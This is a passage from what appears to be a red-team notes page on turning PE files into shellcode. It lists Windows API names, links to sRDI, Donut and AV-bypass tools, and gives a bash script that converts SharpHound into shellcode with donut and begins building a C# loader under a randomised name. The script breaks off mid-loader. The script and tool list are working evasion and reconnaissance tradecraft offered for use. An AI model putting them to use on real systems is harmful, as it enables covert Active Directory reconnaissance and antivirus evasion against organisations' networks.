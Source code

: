 ```
SetupCommitFileQueue
SymEnumProcesses
SymFindFileInPath
VerifierEnumerateResource
```




## PE to Shellcode

- [[PDF] From a C project, through assembly, to shellcode (hasherezade for @vxunderground)](https://github.com/vxunderground/VXUG-Papers/blob/main/From%20a%20C%20project%20through%20assembly%20to%20shellcode.pdf)
- [https://github.com/hasherezade/pe_to_shellcode](https://github.com/hasherezade/pe_to_shellcode)
- [https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/](https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/)
- [https://github.com/paranoidninja/PIC-Get-Privileges](https://github.com/paranoidninja/PIC-Get-Privileges)
- [https://github.com/s0i37/av_bypass/blob/master/crypt/cryptor.py](https://github.com/s0i37/av_bypass/blob/master/crypt/cryptor.py)



### sRDI

- [https://github.com/monoxgas/sRDI](https://github.com/monoxgas/sRDI)
- [https://blog.malicious.group/writing-your-own-rdi-srdi-loader-using-c-and-asm/](https://blog.malicious.group/writing-your-own-rdi-srdi-loader-using-c-and-asm/)



### Donut

- [https://thewover.github.io/Introducing-Donut/](https://thewover.github.io/Introducing-Donut/)
- [https://thewover.github.io/Cruller/](https://thewover.github.io/Cruller/)
- [https://github.com/TheWover/donut](https://github.com/TheWover/donut)
- [https://github.com/S4ntiagoP/donut/tree/syscalls](https://github.com/S4ntiagoP/donut/tree/syscalls)
- [https://github.com/Binject/go-donut](https://github.com/Binject/go-donut)
- [https://github.com/listinvest/undonut](https://github.com/listinvest/undonut)

[Example](https://github.com/l4ckyguy/ukn0w/commit/0823f51d01790ef53aa9406f99b6a75dfff7f146) with [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe) and donut (C# cross-compilation is done with [Mono](https://www.mono-project.com/download/stable/)):

{% code title="blood.sh" %}
```bash
RNDNAME=`curl -sL https://github.com/snovvcrash/WeaponizeKali.sh/raw/main/misc/binaries.txt | shuf -n1`
wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe -qO /tmp/SharpHound.exe

~/tools/PEzor/deps/donut/donut -a2 -z2 -i /tmp/SharpHound.exe -p '--CollectionMethod All,LoggedOn --NoSaveCache --OutputDirectory C:\Windows\Tasks --ZipFilename blood.zip' -o /tmp/SharpHound.bin

BUF=`xxd -i /tmp/SharpHound.bin | head -n-2 | tail -n+2 | tr -d ' ' | tr -d '\n'`
BUFSIZE=`xxd -i /tmp/SharpHound.bin | tail -n1 | awk '{print $5}' | tr -d ';\n'`

cat << EOF > "/tmp/$RNDNAME.cs"
using System;
using System.Runtime.InteropServices;

namespace Sh4rpH0und
{
    class Program
    {
```